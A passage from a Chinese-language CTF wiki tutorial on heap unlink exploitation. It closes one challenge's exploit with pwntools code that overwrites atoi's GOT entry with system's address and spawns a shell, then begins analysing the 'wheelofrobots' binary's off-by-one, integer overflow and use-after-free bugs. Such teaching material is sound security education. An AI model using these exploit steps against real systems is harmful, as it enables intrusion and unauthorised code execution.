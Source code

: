 ```python
# overwrite the atoi got with systemaddr
content = p64(system_addr)
editnote(0, 1, content)
```

由于此时 ptr[0] 的地址 got 表的地址，所以我们可以直接修改该 note，覆盖为 system 地址。

#### get shell

```python
# get shell
sh.recvuntil('option--->>')
sh.sendline('/bin/sh')
sh.interactive()
```

此时如果我们再调用 atoi ，其实调用的就是 system 函数，所以就可以拿到shell了。

## 2017 insomni'hack wheelofrobots
[题目链接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/unlink/2017_insomni'hack_wheelofrobots)

### 基本信息

```shell
➜  2017_insomni'hack_wheelofrobots git:(master) file wheelofrobots
wheelofrobots: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=48a9cceeb7cf8874bc05ccf7a4657427fa4e2d78, stripped
➜  2017_insomni'hack_wheelofrobots git:(master) checksec wheelofrobots
[*] "/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/unlink/2017_insomni'hack_wheelofrobots/wheelofrobots"
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

动态链接64位，主要开启了 canary 保护与 nx 保护。

### 基本功能

大概分析程序，可以得知，这是一个配置机器人轮子的游戏，机器人一共需要添加 3 个轮子。

程序非常依赖的一个功能是读取整数，该函数read_num是读取指定的长度，将其转化为 int 类型的数字。

具体功能如下

- 添加轮子，一共有 6 个轮子可以选择。选择轮子时使用函数是read_num，然而该函数在读取的时候`read_num((char *)&choice, 5uLL);` 读取的长度是 5 个字节，恰好覆盖了 bender_inuse 的最低字节，即构成了 off-by-one 漏洞。与此同时，在添加 Destructor 轮子的时候，并没有进行大小检测。如果读取的数为负数，那么在申请`calloc(1uLL, 20 * v5);` 时就可能导致 `20*v5` 溢出，但与此同时， `destructor_size = v5`  仍然会很大。
- 移除轮子，直接将相应轮子移除，但是并没有将其对应的指针设置为 NULL ，其对应的大小也没有清空。
- 修改轮子名字，这个是根据当时申请的轮子的大小空间来读取数据。之前我们已经说过 destructor 轮子读取大小时，并没有检测负数的情况，所以在进行如下操作时 `result = read(0, destructor, 20 * destructor_size);` ，存在几乎任意长度溢出的漏洞。
- 启动机器人，在启动的时候会随机地输出一些轮子的名称，这个是我们难以控制的。
